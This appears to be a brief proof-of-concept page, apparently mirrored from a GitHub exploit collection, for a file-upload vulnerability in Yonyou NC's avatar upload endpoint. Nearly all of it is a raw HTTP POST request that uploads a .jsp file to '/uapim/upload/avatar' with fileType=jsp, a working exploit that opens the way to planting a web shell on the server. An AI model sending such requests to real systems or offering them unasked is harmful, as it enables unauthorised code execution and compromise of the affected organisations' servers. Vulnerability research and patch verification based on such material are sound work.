 # yonyounc_avatar_fileupload

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BNC-avatar%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md

2024.4.22 @2 

```
POST /uapim/upload/avatar?usercode=1&fileType=jsp HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEXmnamw5gVZG9KAQ
User-Agent: Mozilla/5.0 

------WebKitFormBoundaryEXmnamw5gVZG9KAQ
Content-Disposition: form-data; name="file"; filename="111.jsp"
Content-Type: application/octet-stream

3999
------WebKitFormBoundaryEXmnamw5gVZG9KAQ--
```
